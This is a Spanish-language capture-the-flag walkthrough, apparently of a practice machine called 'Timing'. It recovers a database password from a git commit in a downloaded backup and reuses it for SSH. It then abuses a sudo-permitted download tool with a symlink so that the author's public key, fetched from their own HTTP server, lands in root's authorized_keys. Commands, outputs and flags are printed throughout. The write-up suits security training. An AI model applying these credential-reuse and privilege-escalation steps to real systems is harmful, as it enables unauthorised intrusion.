Hemos visto un soruces-filex-backup.zip para descargarlo como somo www-data lo que hacemos es pasarlo a /var/www/html/mybackup.zip y así para descargarlo solo tenemos que hacer http://10.10.11.135/mybackup.zip



No lo pasamos a nuestro directorio de trabajo y descomprimimos. Vemos que es un proyecto github y nuestra consola lo sabe.

Hacemos un git log y vemos que ha habido un cambio. Vemos ese cambio y encontramos un cambio de contraseña

```bash
┌──(riskoo㉿kali)-[~/Riskoo/maquinas/Timming/mybackup/backup]
└─$ git log                                                                                                 
commit 16de2698b5b122c93461298eab730d00273bd83e (HEAD -> master)
Author: grumpy <grumpy@localhost.com>
Date:   Tue Jul 20 22:34:13 2021 +0000

    db_conn updated

commit e4e214696159a25c69812571c8214d2bf8736a3f
Author: grumpy <grumpy@localhost.com>
Date:   Tue Jul 20 22:33:54 2021 +0000

    init

┌──(riskoo㉿kali)-[~/Riskoo/maquinas/Timming/mybackup/backup]
└─$ git show 16de2698b5b122c93461298eab730d00273bd83e                                                       
commit 16de2698b5b122c93461298eab730d00273bd83e (HEAD -> master)
Author: grumpy <grumpy@localhost.com>
Date:   Tue Jul 20 22:34:13 2021 +0000

    db_conn updated

diff --git a/db_conn.php b/db_conn.php
index f1c9217..5397ffa 100644
--- a/db_conn.php
+++ b/db_conn.php
@@ -1,2 +1,2 @@
 <?php
-$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', 'S3cr3t_unGu3ss4bl3_p422w0Rd');
+$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');


# Ahora ya podemos conectar una ssh con sshpass
sshpass 'S3cr3t_unGu3ss4bl3_p422w0Rd' ssh aaron@10.10.11.135

aaron@timing:~$ ls
user.txt
aaron@timing:~$ cat user.txt 
490910ba83fc4969b5946917fd900767

```



Por lo cual la primera parte la máquina completa ya somos usuarios propietarios de aaron, ahora necesitamos el system propietario.

Dentro de aaron vamos a hacer un sudo -l para ver.

```bash
aaron@timing:~$ sudo -l
Matching Defaults entries for aaron on timing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User aaron may run the following commands on timing:
    (ALL) NOPASSWD: /usr/bin/netutils
```
Vemos que netutils puede utilizarse sin password...

Intentamos ejecutarlo. Buscamos diferentes modos, miramos que tiene dentro y ejecutamos como root ya que no pide contraseña

```bash
aaron@timing:~$ netutils
Error: Unable to access jarfile /root/netutils.jar
aaron@timing:~$ cat netutils
cat: netutils: No such file or directory
aaron@timing:~$ cat netutils
cat: netutils: No such file or directory
aaron@timing:~$ cat /root/netutils.jar
cat: /root/netutils.jar: Permission denied
aaron@timing:~$ cat /usr/bin/netutils 
#! /bin/bash
java -jar /root/netutils.jar
aaron@timing:~$ sudo netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 
```

Esto de netutils no lo he visto en mi vida y buscando por google no he encontrado nada que me haga ver por donde tirar más allá de soluciones al problema este.. que no quiero.

```bash
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 2
aaron@timing:~$ sudo netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: http://10.10.11.135
Initializing download: http://10.10.11.135
File size: 5609 bytes
Opening output file default
Starting download

[  0%]  .....
Connection 0 finished

Downloaded 5.5 Kilobyte in 0 seconds. (54.52 KB/s)

netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 
```

Voy a intentar probar escuchando desde mi pc por el puerto 80 y a ver que nos dice si ponemos mi ip

No vemos nada claro, voy a intentar montar el servidor desde python3, parece que si está haciendo la petición y parece que se descarga algo, vamos a intentar subir la imagen con el código cmd de antes porque como vimos nautils se ejecuta como root por lo que pienso que se guardará como root



> Importante : he intentado ver el jpg desde mi pc de mi servidor pero como el servidor lo habíá puesto en otra ruta pues obviamente no funcionaba y daba un 404. Lo que he hecho es desconectar el servidor, ir a la ruta donde está mi jpg y volver a lanzarlo. Así ya si funciona.

Posteriormente he ido y he hecho una petición a mi ip/prueba.jpg y como vemos se ha descargado como root



Comprobamos que se ha subido el archivo y como vemos es propiedad de root

```bash
aaron@timing:~$ ls -l
total 20
-rw-r--r-- 1 root root  5609 Jun 22 17:09 default
-rw-r--r-- 1 root root  3748 Jun 22 17:13 default.0
-rw-r--r-- 1 root root    35 Jun 22 17:17 prueba.jpg
-rw-r----- 1 root aaron   33 Jun 22 15:52 user.txt
```

Vamos a crear un link simbólico a la zona de ssh authorized keys ¿para que? pues porque subiremos luego nuestro archivo de clave pública para ponerlo ahí y poder entrar por ssh sin que nos pida credenciales. Como vimos cuando se descarga sobreescibre el archivo como root.

Primeramente aparte del enlace simbólico tendremos que crear nuestro clave pública que la llamaremos id_rsa.pub, tendremos que meter ahí nuestra clave, hacer que se la descargue y en principio ya podremos entrar.

```bash
# crear link simbólico o enlace simbólico a autorized_keys
ln -s -f /root/.ssh/authorized_keys id_rsa.pub
```



Ahora mismo nos sale en rojito porque está hecho como aaron, se supone que cuando subamos id_rsa.pub se sobreescribirá como root

## Crear nuestra keygen
```bash


ssh-keygen                                                                                              
Generating public/private rsa key pair.
Enter file in which to save the key (/home/riskoo/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/riskoo/.ssh/id_rsa
Your public key has been saved in /home/riskoo/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:W6/VjzwGPAgXcDnkYadfa5di1osR+Jj/T6emjgXwZu8E riskoo@kali
The key's randomart image is:
+---[RSA 3072]----+
|        .oo.  . .|
|         +=  = ..|
|        o o=o.o. |
|       ..o+....  |
|        Soo*.+   |
|         oo.@.= .|
|        .  ooE.o |
|           o..X+.|
|          .  +==o|
+----[SHA256]-----+
'
cd ~/.ssh/
ls
id_rsa  id_rsa.pub
```

Vale pues ahora la pasamos al directorio donde tenemos el python3 escuchadno y volvemos a ejcutar pero le metemos id_rsa.pub
```bash
──(riskoo㉿kali)-[~/Riskoo/maquinas/Timming]
└─$ ls                                                                                                      
allports         download.sh  id_rsa.pub  pass.txt    sources   webScan
credentials.txt  exploits     mybackup    prueba.jpg  Targeted
```
Una vez lo tenemos vamos a usar el netutils y le pasamos ip/id_rsa.pub



Se ha descargado y si todo va bien debería usar root el enlace simbólico y ponerlo en authorized_keys, lo que pasa que como no podemos leer pues tendremos que hacer la prueba



Vamos a probar si podemos entrar como root y efectivamente funciona



y ya tenemos la nueva flag

```bash
axel  netutils.jar  root.txt                                                                                                                                                                                                                
root@timing:~# cat root.txt                                                                                                                                                                                                                 
8b08823b549f5c56c2f502143cd896ed                                                                                                                                                                                                            
root@timing:~#                      
`
